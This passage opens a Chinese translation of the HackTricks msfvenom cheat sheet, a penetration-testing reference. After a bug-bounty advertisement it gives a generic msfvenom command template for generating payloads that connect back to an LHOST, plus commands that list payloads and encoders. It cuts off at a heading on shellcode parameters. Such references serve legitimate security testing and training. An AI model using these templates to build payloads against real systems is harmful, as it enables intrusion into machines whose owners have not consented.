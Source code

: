 # MSFVenom - 速查表

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks 云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof 是所有加密漏洞赏金的家园。**

**无需延迟获得奖励**\
HackenProof 的赏金只有在客户存入奖励预算后才会启动。在漏洞验证后，您将获得奖励。

**在 web3 渗透测试中获得经验**\
区块链协议和智能合约是新的互联网！在它崛起的日子里掌握 web3 安全。

**成为 web3 黑客传奇**\
每次验证的漏洞都会获得声望积分，并占领每周排行榜的榜首。

[**在 HackenProof 上注册**](https://hackenproof.com/register) 开始从你的黑客攻击中获利！

{% embed url="https://hackenproof.com/register" %}

***

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

也可以使用 `-a` 来指定架构或 `--platform`

## 列表
```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
```
## 创建 shellcode 时常见的参数

When creating a shellcode, there are several common parameters that can be used:

在创建 shellcode 时，可以使用以下几个常见参数：
